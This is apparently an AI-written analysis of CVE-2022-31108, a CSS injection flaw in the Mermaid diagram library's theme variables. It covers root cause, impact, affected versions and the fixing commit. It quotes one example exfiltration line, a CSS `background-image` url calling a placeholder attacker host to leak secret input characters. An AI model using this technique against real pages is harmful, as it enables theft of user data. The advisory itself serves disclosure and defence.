 Based on the provided information, here's a breakdown of the vulnerability:

**CVE ID:** CVE-2022-31108

**Root Cause:**
The vulnerability stems from the lack of proper sanitization of user-provided theme variables within the Mermaid library. Specifically, the `textColor`, `fontFamily` and `themeCSS` variables were not being sanitized before being embedded into CSS blocks, allowing for arbitrary CSS injection.

**Weaknesses/Vulnerabilities:**
- CSS Injection: The primary vulnerability is the ability to inject arbitrary CSS rules into the generated SVG, which allows styling of elements outside the intended scope of the diagram. This was possible via the `themeVariables` settings such as `textColor` and also `fontFamily`.

**Impact of Exploitation:**
- **Information Disclosure:** Attackers could exfiltrate sensitive data by leveraging CSS selectors and functions that trigger HTTP requests (e.g., using `background-image: url(http://attacker/?char=x);` to send data to an external server). The example provided shows how an attacker can bruteforce the content of a secret input field.
- **UI manipulation**: Attackers can alter the appearance of the page, potentially leading to phishing attacks or tricking users into performing unintended actions (e.g., clicking on a malicious link).

**Attack Vectors:**
- By crafting a malicious diagram definition with specific values in the `themeVariables` settings.

**Required Attacker Capabilities/Position:**
- The attacker must be able to supply a crafted diagram definition to the Mermaid library, this could be through any mechanism that utilizes mermaid.
- No specific user level privileges are required, exploitation is possible if the attacker can control the input to mermaid.

**Additional Details:**
- The vulnerability was present in versions 8+ of the Mermaid library and was fixed in version 9.1.2
- The vulnerability is present in multiple locations, including `src/styles.js`, `src/mermaidAPI.js` and potentially other injection points within the code.
- The fix implemented sanitization to ensure that user inputs are properly escaped before being embedded into CSS blocks. The sanitizer will remove invalid characters from `themeVariables`. It also ensures that the number of open curly brackets `{` matches the number of closing curly brackets `}`.
- The commit `0ae1bdb61adff1cd485caff8c62ec6b8ac57b225` addresses this vulnerability.
- The commit contains test cases (ghsa.spec.js) as well as new html files (`ghsa1.html`, `ghsa2.html`) which show how the vulnerability can be triggered.